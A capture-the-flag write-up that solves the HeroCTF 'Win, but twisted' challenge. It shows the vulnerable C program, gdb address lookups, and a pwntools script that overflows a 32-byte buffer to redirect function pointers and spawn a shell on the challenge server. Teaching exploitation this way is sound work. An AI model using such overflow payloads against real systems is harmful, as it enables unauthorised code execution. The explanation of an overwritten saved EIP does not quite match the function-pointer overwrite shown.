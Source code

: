 # Win, but twisted

#### So we got two files
- [WinButTwisted.c](files/WinButTwisted.c) (source code)
- [WinButTwisted](files/WinButTwisted) (binary file)

#### and this message :

```
Just a little warm up, but hey, without the twist it would've been too simple.
Get the flag from the server.

Challenge : nc pwn.heroctf.fr 9003

Format : Hero{}

Author : iHuggsy
```
#

#### First thing we do is to run the program :
```console
$ ./WinButTwisted 
What would a hero say ?
>>> Hello
It looks like that s something a Hero would say
Please keep being one. :)
```

#### by also testing its limits :
```console
$ ./WinButTwisted 
>>> aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Erreur de segmentation (core dumped)
```
#### We therefore understand that the size of the input buffer is not protected against buffer overflow attacks. 

#

#### To explain quickly, the buffer overflow works by overflowing the stack and will, by a function return, overwrite the old value of EIP (instruction pointer) and will therefore jump to the address we have injected.

![buffer overflow explanation image](images/buffer_overflow_schema.png "buffer overflow explanation")

#

#### To go further we can look at several other information like:
- the basic information of the file :
```
$ file WinButTwisted
WinButTwisted: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, BuildID[sha1]=30d5731a2385816deab25ce8684e2de08b24846f, for GNU/Linux 4.4.0, not stripped
```
- the exif data of the file to see the order in which the memory addresses are encoded :
```
$ exiftool WinButTwisted
ExifTool Version Number         : 11.88
File Name                       : WinButTwisted
Directory                       : .
File Size                       : 712 kB
File Modification Date/Time     : 2021:04:23 22:39:21+02:00
File Access Date/Time           : 2021:04:26 12:25:50+02:00
File Inode Change Date/Time     : 2021:04:23 22:42:06+02:00
File Permissions                : rwxrwxrwx
File Type                       : ELF executable
File Type Extension             : 
MIME Type                       : application/octet-stream
CPU Architecture                : 32 bit
CPU Byte Order                  : Little endian
Object File Type                : Executable file
CPU Type                        : i386

```

- if the stack is executable :
```console
$ readelf -l WinButTwisted | grep GNU_STACK
Type           Offset   VirtAddr   PhysAddr   FileSiz MemSiz  Flag Align
GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RW   0x10
```

#### With all this, we now know that :
- it is an ELF file
- it is statically linked (all library functions will be embedded in the binary file)
- it is not stripped (so variable/function names are kept, which will simplify our task)
- it is in Little Endian (order of writing bytes in memory, ex: 0xdeadbeef is written in memory \xef\xbexad\xde)
- the stack is not executable because there is no E flag (preventing the execution of code injected on the stack)

#

#### So now we read the C code of the file:

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>

int UNLOCKED = 0;

void set_lock()
{
    printf("Setting lock !");
    UNLOCKED = 1;
}

void shell()
{
    printf("In shell function ! ");
    if (UNLOCKED == 1)
    {
        printf("Getting shell ! ");
        setreuid(geteuid(), geteuid());
        system("/bin/sh");
    }

    
}

void hello_hero(int hero)
{
    printf("It looks like that's something a Hero would say\n");
}

void look_like()
{
    printf("Please keep being one. :)\n");
}

int main()
{
    int (*look)() = look_like;
    int (*hello)() = hello_hero;
    char buffer[32];

    printf("What would a hero say ?\n>>> ");
    fgets(buffer, 44, stdin);
    hello();
    look();

}
```

#### We quickly understand that the final goal is to run the shell() function. But to achieve this we can see that this requires the shell to be "unlocked" by first running the set_lock() function.

#### So we have our running order of things :
``` 
[make the buffer go over with A] [set_lock() address] [shell() address]
```

#### To find out how many A we have to put in to overflow the buffer, we look at the buffer size in the code. We have this :

```c
char buffer[32];
```

#### Now that we have the size of the buffer, all we need to do is find the addresses of shell() and set_lock(). To do this we will run gdb :

```console
$ gdb WinButTwisted
gef➤  info function shell 
All functions matching regular expression "shell":

Non-debugging symbols:
0x08049999  shell
gef➤  info functions set_lock 
All functions matching regular expression "set_lock":

Non-debugging symbols:
0x08049965  set_lock
```

#### Ok, now that we have all the information we need to solve the challenge we write ourselves a little Python script to flag the challenge

```python
#!/bin/python3

from pwn import remote, p32,log

r = remote('pwn.heroctf.fr', 9003)

#32 character a to fill buffer and overflow
payload = b'a' * 32
#the address of the set_lock function (0x08049965)
payload += p32(0x08049965)
#the address of the shell function (0x08049999)
payload += p32(0x08049999)
#displays the payload
print(payload)

r.recvuntil('>>>')
r.sendline(payload)
r.interactive()
```

#### And that's it, we get the flag : Hero{Tw1sT3D_w1N_FuNcTi0N}

```console
$ ./solver.py 
[+] Opening connection to pwn.heroctf.fr on port 9003: Done
b'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaae\x99\x04\x08\x99\x99\x04\x08'
[*] Switching to interactive mode
 Setting lock !In shell function ! Hero{Tw1sT3D_w1N_FuNcTi0N}  [*] Got EOF while reading in interactive
$ 
$ 
[*] Closed connection to pwn.heroctf.fr port 9003
[*] Got EOF while sending in interactive
```
